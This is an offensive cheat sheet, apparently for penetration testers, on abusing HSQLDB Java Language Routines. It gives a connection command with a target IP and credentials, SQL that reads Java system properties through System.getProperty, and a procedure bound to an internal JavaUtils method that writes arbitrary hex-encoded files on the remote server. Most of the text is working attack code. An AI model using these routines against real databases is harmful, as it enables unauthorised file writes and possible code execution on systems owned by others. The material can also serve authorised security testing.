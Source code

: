 
We can call static methods of a Java class from HSQLDB using Java Language Routines (JRT).
Like any Java program, the class needs to be in the application's classpath.

JRTs can be defined as functions or procedures. 
Functions can be used as part of a normal SQL statement if the Java method returns a variable.

If the Java method we want to call returns void, we need to use a procedure. 
Procedures are invoked with a CALL statement.

### Connecting to HSQLDB databases

- https://sourceforge.net/projects/hsqldb/files/hsqldb/hsqldb_2_5/

```bash
java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing --url jdbc:hsqldb:hsql://10.10.10.10:9001/CRX --user login --password secretpass99
```

### Database functions

Reading a system property:

 - https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html

```sql
CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR 
  LANGUAGE JAVA 
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
  
VALUES(systemprop('java.class.path'))
```

### Database procedures

Writing a file on the remote system:

```sql
CREATE PROCEDURE writeBytesToFilename(IN fileName VARCHAR, IN fileContent VARBINARY(2000))
  LANGUAGE JAVA 
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

Encode the file content with Burp as ASCII hex:

```sql
call writeBytesToFilename('test.txt', cast ('497420776f726b656421' AS VARBINARY(1024)))
call writeBytesToFilename('test.txt', cast ('' AS VARBINARY(1024)))
```